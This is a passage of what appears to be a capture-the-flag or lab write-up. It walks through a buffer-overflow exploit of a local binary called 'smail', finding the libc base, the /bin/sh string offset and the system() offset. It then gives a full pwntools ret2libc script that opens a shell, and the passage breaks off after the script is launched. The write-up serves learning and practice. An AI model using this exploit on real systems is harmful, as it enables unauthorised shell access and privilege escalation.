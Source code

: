 ```
Changed
Segmentation fault (core dumped)
```
Important information!!! we can try to use the classic **buffer overflow**

To be able to create a script, we first need to know the first address
```
carlJ@incognito:~/mailing$ ldd smail
	linux-vdso.so.1 (0x00007ffff7ffa000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff79e2000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd3000)
```
OK. We have the first address **0x00007ffff79e2000**

Now we need to find the appropriate address for **/bin/sh**
```
carlJ@incognito:~/mailing$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 1b3e1a /bin/sh
```
Last element, **libc**
```
carlJ@incognito:~/mailing$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
   232: 0000000000159cd0    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   607: 000000000004f550    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

**Script**
```
from pwn import *

p = process('./smail')

libc_base = 0x7ffff79e2000
system = libc_base + 0x4f550
binsh= libc_base + 0x1b3e1a

POPRDI=0x4007f3

payload = b'A' * 72
payload += p64(0x400556)
payload += p64(POPRDI)
payload += p64(binsh)
payload += p64(system)
payload += p64(0x0)

p.clean()
p.sendline("2")
p.clean()
p.sendline(payload)
p.interactive()
```
First execution, yo have an error message. Follow the instruction
```
carlJ@incognito:~/mailing$ python3 buffer.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/carlJ/.cache/.pwntools-cache-3.6/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
```
Launch one more time the script and Bingo ^^
```
carlJ@incognito:~/mailing$ python3 buffer.py
[+] Starting local process './smail': pid 13227
```